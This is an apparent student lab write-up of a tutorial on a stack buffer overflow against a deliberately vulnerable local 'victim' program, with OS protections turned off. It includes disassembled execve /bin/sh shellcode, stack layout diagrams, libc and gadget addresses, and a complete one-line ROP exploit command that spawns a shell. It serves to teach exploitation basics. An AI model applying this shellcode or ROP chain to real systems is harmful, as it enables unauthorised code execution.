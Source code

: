 
# Overview

The aim of this project is to demonstrate a basic stack smashing attack on a simple Hello World program. Though this is simple, it's also a good overview how a buffer overflow can be used to gain shell access, and also walks us through the protections the operating system has to protect from these attacks.

For this project, I’m using a relatively newer installation of Arch. This means that I may run into trouble with, as the top of this tutorial indicates, newer versions of Linux. 

#### Some assembly required
I began by compiling and running the provided shell.c code. Understanding the assembly code: it seems to load the string bin/sh into somewhere in memory, and then executes it by using the sys call command, which I think executes whatever is in a certain register. I also understand the idea of labeling and using the hex code 0xdeadbeef to mark where in memory it is.

At first, I did not think that it was working at all. I began to do the rest and was running into trouble. Then I discovered that it was running the whole time and I’d been trying to do the rest of the commands from within the execvp shell! (It seemed to be missing some environment variables).

(Note: On Arch, when I run objdump, the output is different from what the tutorial indicates it should be. Instead of one line with ``` 4004d6:       69 6e 2f 73 68 00 ef    imul ```, my output is spread into multiple lines, which I guess must be some kind of breaking down of the operation. When I run “cat shell code” it is the same, however. Upon switching to Ubuntu it is the same.)

The entire program dumps to:
```
00000000004004aa <needle0>:
  4004aa:	eb 0e                	jmp    4004ba <there>

00000000004004ac <here>:
  4004ac:	5f                   	pop    %rdi
  4004ad:	48 31 c0             	xor    %rax,%rax
  4004b0:	b0 3b                	mov    $0x3b,%al
  4004b2:	48 31 f6             	xor    %rsi,%rsi
  4004b5:	48 31 d2             	xor    %rdx,%rdx
  4004b8:	0f 05                	syscall 

00000000004004ba <there>:
  4004ba:	e8 ed ff ff ff       	callq  4004ac <here>
  4004bf:	2f                   	(bad)  
  4004c0:	62                   	(bad)  
  4004c1:	69                   	.byte 0x69
  4004c2:	6e                   	outsb  %ds:(%rsi),(%dx)
  4004c3:	2f                   	(bad)  
  4004c4:	73 68                	jae    40052e <__libc_csu_init+0x4e>
	...
```

### Learn Bad C in only 1 hour!
The victim.c code seems fairly simple. All it does is take in a char array and print it. Of course, if we overflow the array, fun can happen…
Also: It is impressive how extensive the protections that the OS puts in are these days. I can see how all the things we are disabling would make our ROP attack impossible: if we can’t find or execute our code, our attack is worthless. Successful exploits on a live machine must be very complicated.

Here is a simple diagram of how our code is trying to work. We're attempting to turn:
```
 _______________
|name array     |
|(64 bytes)     |
|               |
|_______________|
|RBP (8 bytes)  |
|ReturnAddr     |
```
into:

```
 _______________
|shellcode      |
|(32 bytes)     |
|0 (32 bytes    |
|_______________|
|RBP (8 bytes)  |
|ReturnAddr     |
```


_(Sam: I had to use “x86_64” for the architecture since my Arch install did not recognize the ‘arch’ architecture. My address was 0x7fffffffe5a0.)_

### The importance of being patched:
The code breaks down as follows:
First, obtain the address of the code in memory using the ps command. Then use the program to print out the location of the char array. Find out the offset to know how far you have to write the buffer to overflow it. Just as with the example, my code was 88 away from the address.

Next, the xxd script inserts the entire shell script as an input in the char array. This, followed by 40 zeros and the address of the _name_ array, once again causes the program to jump to and execute the stored therein (which launches ```/bin/sh```) This is the same kind of buffer overflow as the previous one. What this exploit offers over the first is it defeats ASLR, by dynamically finding the address of the program in memory.

Note: Upon visual inspection, it seems my version of Ubuntu organizes the stack at a different position in memory than the example code assumed. Specifically, the tutorial assumed that it would be prefixed with ```0x7fff```, and that would be the offset that the stack pointer offsets from. (That’s why it does ``0x7fff$sp+88``). I noticed that sometimes my program would be running at ```0x7ffe```, however, and that is why it was failing. If I hardcode that prefix when running the exploit, I successfully get a shell. So we require a bit of visual inspection to find which script to run. 

Go-go-gadgets:
I used the revised code linked at the top of the page. Using this, I generated code based on the linked code. The variables we had were:

```
buffer:		0x7fffffffe5a0
libc: 		0x7ffff7a15000
system:	0x7ffff7a15000 + 0x46590 = 0x7ffff7a5b590
gadgets:	0x7ffff7a15000 + 0x22b9a = 0x7ffff7a37b9a
bash: 		0x7fffffffe5a0 + 64d + 8d + 24d = 0x7fffffffe600 
```
The code we used to use the ROP exploit was therefore:

```
(((printf %0144d 0; printf %016x 0x7ffff7a37b9a | tac -rs..; printf %016x 0x7fffffffe600 | tac -rs..; printf %016x 0x7ffff7a5b590 | tac -rs.. ; echo -n /bin/sh | xxd -p) | xxd -r -p) ; cat) | ./victim
```

Which loads the right addresses onto the stack! This allows the program to return to the gadget instead of the OS, which executes our program!
